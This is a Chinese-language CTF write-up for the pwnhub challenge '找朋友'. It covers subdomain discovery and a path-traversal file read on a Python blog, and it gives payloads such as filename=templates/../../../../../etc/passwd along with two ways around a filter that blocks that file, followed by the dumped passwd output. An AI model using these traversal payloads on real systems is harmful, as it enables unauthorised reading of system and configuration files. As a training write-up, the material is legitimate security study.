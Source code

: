 ```yaml
---
title: pwnhub_找朋友
date: 2016-12-18 23:21:49
tags:
- pwnhub
- weblogic
- lfi
categories:
- Blogs
---
```



先膜tomato师傅出的题，偷马桶师傅出的题一直都是渗透思路，这点我是服的，顺手膜小m...因为在找真是ip这一步我花了十几个小时都失败了，当时的思路还留在博客里，算是个纪念吧...



首先下载下来判断文件类型是一个win程序，猜测是类似于木马样式，于是虚拟机打开抓包，发现了请求向`http://shell.pwnme.site`，但是无论通过whois反查还是别的，都没有收获，那么唯一的思路是扫子域名。

于是扫一波域名找到了`http://blog.pwnme.site`,一个python的站，有一些信息：
1、存在登陆注册，user_login和user_register,登陆后从源码里看到了file_download
2、file_download可以读文件，我们找到了`web.py`、`config.py`，然后找到了`models.py`，但是没有找到任何收获。
3、阅读源码发现读文件可以绕过，`filename=templates/../../../../../etc/hosts`,但是没有任何想法，这里猜测有别的站，但是百度云加速过了cdn，我们没办法得到真实ip。
<del>
（1）在没有任何cve和特殊漏洞影响下，我们获取真实ip的唯一办法应该是ssrf，但是我们有能力读文件，那么什么文件会记录请求的ip的。
（2）有个新想法，dns历史解析</del>

这里走了太远的弯路，最开始读文件的时候`/etc/passwd`被过滤了，但是没觉得有什么太大的影响，所以也就没想着绕，阅读得到很多信息，这里有两种绕过方式
```
filename=templates/../../../../../etc/./././passwd
和
filename=templates/../../../../../etc/passwd&filename=config.py
python和php解析参数不一样，不存在什么参数覆盖的影响。
```

得到
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
```